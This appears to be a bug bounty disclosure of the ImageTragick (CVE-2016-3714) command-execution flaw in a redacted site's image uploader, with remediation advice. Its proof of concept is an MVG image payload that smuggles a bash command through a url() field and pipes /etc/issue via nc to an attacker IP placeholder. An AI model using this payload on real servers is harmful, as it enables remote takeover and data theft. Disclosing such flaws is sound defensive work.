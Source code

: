 ImageTragick leads to RCE on xxx.xxxxxxxxxxxx.xxx



Hi,


## Description

ImageMagick is a popular software used to convert, edit and manipulate images. It has libraries for all common programming languages, including PHP, Python, Ruby and many others. 

However, the olders version of ImageMagick don’t properly filter the file names that get passed to the internal delegates that handle external protocols. This allows an attacker to execute his own commands remotely by uploading an image. This leads to a full RCE vulnerability in your image uploader.


## PoC

Use the following payload as an image:
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://<attacker ip>"||/bin/bash -c "cat /etc/issue | nc -nv <attacker ip> 1111)'
pop graphic-context
```

{}


## Risk

- take control of the concerned server
- malicious code injection
- defacement
- perform pivoting to access other server in the same network
- ...


## Remediation

Check the uploaded file if it's really an image before passing the file to ImageMagick (e.g. the convert utility).
Update the system to the last version of ImageMagick (or at least a patched version).


## See also

https://imagetragick.com/  
https://blog.sucuri.net/2016/05/imagemagick-remote-command-execution-vulnerability.html  
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-3714  




Best regards,

Gwen

